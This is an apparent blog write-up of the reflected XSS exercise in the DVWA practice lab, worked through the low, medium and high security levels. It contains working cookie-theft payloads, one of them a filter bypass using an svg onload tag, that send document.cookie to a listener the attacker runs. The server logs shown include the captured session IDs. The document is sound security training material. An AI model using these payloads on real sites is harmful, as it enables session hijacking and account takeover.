 ```yaml
---
title: DVWA - XSS (Reflected)
date: 2023-12-17
categories: [CTF, Web Exploitation]
tags: [dvwa, xss, xss-reflected, cross-site-scripting, burp, javascript]
img_path: /assets/dvwa/xss_reflected
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Reflected)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

Because its a **reflected XSS**, the malicious code is not stored in the remote web application, so **requires some social engineering** (such as a link via email/chat).

**Objective**: One way or another, steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_low_source.php))._

1. Putting our name in the input form, we notice the the parameter `name` appears on the address bar:

    ![](home_kuv4z.png)

2. Instead of our name, we can try a simple payload to see it will work:

    ![](low_test.png)

3. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](xss_test.png)

4. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```

5. If we pass the exact same payload as the one we used for the [XSS (DOM)](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/#security-low) section, it won't work:

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
    ```

    ![](low_payload_fail.png)

6. If we view the page's source, we will notice that the `+` symbol disappears:

    ![](low_page_source.png)

7. We can try to [URL-encode](https://www.w3schools.com/tags/ref_urlencode.ASP) the `+` symbol and try again:

    ![](url_enc.png)

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```
    ![](low_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:17:49] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=low HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `<script>`, to disable any JavaScript ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_medium_source.php))._

1. First, let's get rid of the PHP error we have by changing `${name}` to `{$name}` in `/usr/share/dvwa/vulnerabilities/xss_r/source/medium.php` and refreshing the page:

    ![](php_error.png)

    ![](medium_php.png)

    ![](medium_php_fixed.png)

2. If we take a look at the page's source code, we will see that the `<script>` tag gets removed, so this time the same payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ![](medium_source_code.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_test.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:37:35] "GET /?cookie=security=medium;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: High
> _The developer now believes they can disable all JavaScript by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_high_source.php))._

> You can fix the error as above.

1. This level can be attacked the same way as the previous one:

    ![](high_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:42:59] "GET /?cookie=security=high;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=qHHADT52L5s).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).
